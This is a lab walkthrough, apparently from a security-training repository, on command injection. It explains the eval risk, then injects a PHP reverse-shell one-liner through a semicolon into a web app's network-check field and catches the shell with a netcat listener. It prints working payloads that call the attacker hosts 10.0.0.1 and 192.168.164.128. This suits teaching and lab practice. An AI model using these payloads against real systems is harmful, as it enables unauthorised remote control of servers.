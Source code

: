 
# 🌐 Introduction to Command Injection

---

## ❓ What is Command Injection?

Command Injection is a security vulnerability that allows an attacker to execute arbitrary commands on the host operating system via a vulnerable application.  
This vulnerability is typically found in web applications that fail to properly sanitize user inputs directly used in shell commands.

---

## 🧰 Why Use the `eval` Function as an Example?

- **Function Usage:**  
  The `eval` function in many programming languages (e.g., JavaScript, Python, PHP) evaluates or executes an argument as code.  
  If the input to `eval` is not strictly controlled, it can execute malicious code.
- **Risks:**  
  Since `eval` can execute dynamic expressions, unsanitized inputs can lead to severe security risks.

---

# 🛠️ Lab Walkthrough: Discovering Command Injection

### 1️⃣ Initial Setup:
- **Functionality Tested:**  
  Network check.
- **User Input:**  
  `http://localhost`
- **System Response:**
  ```
  Command: curl -I -s -L http://localhost | grep "HTTP/"
  Result: HTTP/1.1 200 OK
  ```

---

### 2️⃣ Exploitation Using GitHub Resources:
- **Resource:**  
  [PayloadsAllTheThings GitHub Repository](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md)
- **Selected Payload:**  
  PHP reverse shell command.

---

### 3️⃣ Crafting the Payload:
- **Original Command:**
  ```php
  php -r '$sock=fsockopen("10.0.0.1",4242);exec("/bin/sh -i <&3 >&3 2>&3");'
  ```
- **Modified for Local Use:**  
  Replace "10.0.0.1" with the local IP obtained via `$ ip a` command.
- **Input into Network Check:**
  ```bash
  ; php -r '$sock=fsockopen("192.168.164.128",4444);exec("/bin/sh -i <&3 >&3 2>&3");'; #
  ```

---

### 4️⃣ Establishing the Reverse Shell:
- **Listening on Attacker's Machine:**
  ```bash
  nc -nlvp 4444
  ```
- **Outcome:**  
  Successful connection and control over the server's shell.

---

## 📡 What is a Reverse Shell?

A reverse shell is a type of shell where the target machine opens a connection to an attacking machine, which then has the ability to execute commands on the target machine.  
It's "reverse" because the target (not the attacker) initiates the connection and then receives commands.

---

## 🔧 Understanding the Commands:

- **`ip a` Command:**  
  Displays all network interfaces and their IP addresses.
- **`nc` Command:**  
  Netcat, a versatile networking tool for debugging and investigating networks.
- **`nlvp` Flags:**
  - `n`: Skips DNS resolution.
  - `l`: Sets up a listener.
  - `v`: Increases verbosity to show incoming connections.
  - `p`: Specifies the listening port.

---

### 🧩 How the Payload Works:
- **Payload Breakdown:**  
  - The semicolon `;` terminates any previous commands.  
  - The PHP script is then executed, creating a socket connection back to the attacker's IP and port.  
  - `exec` runs a shell binded to this socket, allowing command execution from the attacker's side.
- **Security Bypass:**  
  This payload bypasses input validation and demonstrates a command injection vulnerability.

---
